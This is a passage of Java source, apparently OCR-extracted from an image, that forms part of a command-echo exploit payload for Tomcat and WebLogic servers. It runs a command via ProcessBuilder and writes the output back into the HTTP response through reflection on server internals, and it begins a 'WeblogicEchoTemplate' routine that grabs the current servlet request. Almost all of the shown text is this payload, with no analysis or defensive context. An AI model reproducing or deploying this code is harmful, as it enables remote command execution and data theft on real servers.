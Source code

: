 ```java
                                    writeBody(var2, (new Scanner((new ProcessBuilder(var12)).start().getInputStream())).useDelimiter("\\A").next().getBytes());
                                    return;
                                }
                            }
                        }
                    }
                }
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    private static void writeBody(Object var0, byte[] var1) throws Exception {
        Object var2;
        Class var3;
        try {
            var3 = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
            var2 = var3.newInstance();
            var3.getDeclaredMethod("setBytes", byte[].class, Integer.TYPE, Integer.TYPE).invoke(var2, var1, new Integer(0), new Integer(var1.length));
            var0.getClass().getMethod("doWrite", var3).invoke(var0, var2);
        } catch (NoSuchMethodException var5) {
            var3 = Class.forName("java.nio.ByteBuffer");
            var2 = var3.getDeclaredMethod("wrap", byte[].class).invoke(var3, var1);
            var0.getClass().getMethod("doWrite", var3).invoke(var0, var2);
        }

    }

    private static Object getFV(Object var0, String var1) throws Exception {
        Field var2 = null;
        Class var3 = var0.getClass();

        while(var3 != Object.class) {
            try {
                var2 = var3.getDeclaredField(var1);
                break;
            } catch (NoSuchFieldException var5) {
                var3 = var3.getSuperclass();
            }
        }

        if (var2 == null) {
            throw new NoSuchFieldException(var1);
        } else {
            var2.setAccessible(true);
            return var2.get(var0);
        }
    }

    public static void WeblogicEchoTemplate(){
        try{
            Object adapter = Class.forName("weblogic.work.ExecuteThread").getDeclaredMethod("getCurrentWork").invoke(Thread.currentThread());
            Object res;
            if(!adapter.getClass().getName().endsWith("ServletRequestImpl")){
                Field field = adapter.getClass().getDeclaredField("connectionHandler");
                field.setAccessible(true);
                Object obj = field.get(adapter);
                adapter = obj.getClass().getMethod("getServletRequest").invoke(obj);
            }
```